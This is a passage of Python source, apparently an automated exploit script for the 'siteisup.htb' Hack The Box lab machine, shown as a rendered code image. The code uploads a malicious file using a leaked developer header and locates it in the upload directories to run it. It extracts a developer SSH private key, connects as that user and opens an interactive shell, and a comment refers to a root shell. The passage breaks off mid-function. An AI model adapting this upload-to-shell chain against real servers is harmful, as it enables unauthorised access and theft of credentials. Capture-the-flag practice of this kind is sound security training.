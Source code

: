 ```python
		# (3) SAVE DEVELOPER ID_RSA
		progress.status('Extracting id_rsa keys')

		private_key_name = 'id_rsa_developer'
		self.create_file(private_key_name, id_rsa_output)
		log.info(f'Developer id_rsa: ./{private_key_name}')

		# (4) SSH CONNECTION (developer)
		progress.status('SSH connection')
		connection = self.ssh_connection('developer', private_key_name)

		# (5) GET ROOT SHELL WITH ROOT ID_RSA
		progress.status('Getting reverse shell')
		self.interactive_shell(connection)

	def create_file(self, file_name, file_data):
		with open(file_name, 'w') as file:
			file.write(file_data + '\n')

	def upload_file(self):
		try:
			headers = {
				'Special-Dev' : 'only4dev'
			}

			file_data = {
				'file' : (
					self.malicious_file, 
					open(self.malicious_file, 'r'), 
					'application/octet-stream'
				)
			}

			post_data = {
				'check' : 'Check'
			}

			requests.post(
				self.target_url, 
				headers=headers, 
				files=file_data, 
				data=post_data
			)

		except Exception as error:
			sys.exit('\n[x] Error: %s' % error)

	def output_command(self, response):
		output = response.replace("\nhttp://url.fake\n", "")
		output = output.replace("Enter URL here:Welcome to 'siteisup.htb' application", "").strip()

		return output
		
	def execute_file(self):
		try:
			headers = {
				'Special-Dev' : 'only4dev'
			}

			response = requests.get(self.target_url + '/uploads/', headers=headers)
			
			beauty_response = BeautifulSoup(response.text, 'html.parser')
			md5_directories = beauty_response.find_all('a')[5:]
```